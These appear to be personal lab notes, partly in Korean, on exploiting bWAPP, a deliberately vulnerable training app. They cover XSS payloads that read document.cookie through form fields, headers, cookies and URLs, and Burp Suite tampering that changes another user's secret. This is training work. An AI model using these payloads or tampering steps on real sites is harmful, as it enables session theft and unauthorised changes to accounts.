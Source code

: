 `http://192.168.56.143/phpmyadmin/error.php?error=test[a@http://192.168.56.143/bWAPP/get_cookie.html@]click
## XSS - Reflected(PHP_SELF)
### security : low
First name : `<script>alert(document.cookie)</script>
Last name : `<h1>hack</h1>
## XSS - Reflected(User-Agent)
### security : low
burp suite
intercept on
	User-Agent : `<script>alert("hack")</script>
## XSS - Stored(Change Secret)
### security : low
New secret : testtest
SQL Injection (Login Form/User)에서 secret 바뀐거 확인
New secret : `<script>alert(document.cookie)</script>
SQL Injection (Login Form/User)에서 스크립트 실행 확인
## XSS - Stored(Cookies)
### security : low
php?genre=`<script>alert("hack")</script>&form=like
cookie
	movie_genre : %3Cscript%3Ealert%28~
	쿠키에 입력됨
## SQLiteManager XSS
### security : low
`http://192.168.56.143/sqlite/index.php?dbsel=1;<script>alert(document.cookie)</script>
	스크립트 실행 확인
## XSS - Stored(User-Agent)
### security : low
burp suite
intercept on
	User-Agent : `<script>alert("hack")</script>
## Insecure DOR(Change Secret)
### security : low
New secret : test
SQL Injection (Login Form/User)에서 secret 바뀐거 확인
페이지 소스
	`<input type="hidden" name="login" value="bee">
burp suite
intercept on
	login=test로 변경
SQL Injection (Login Form/User)에서 test유저로 로그인 시 secret 바뀐거 확인
## Insecure DOR(Reset Secret)
### security : low
burp suite
intercept on
	`<secret>test1234</secret> 으로 변경
SQL Injection (Login Form/User)에서 secret이 test1234로 바뀐거 확인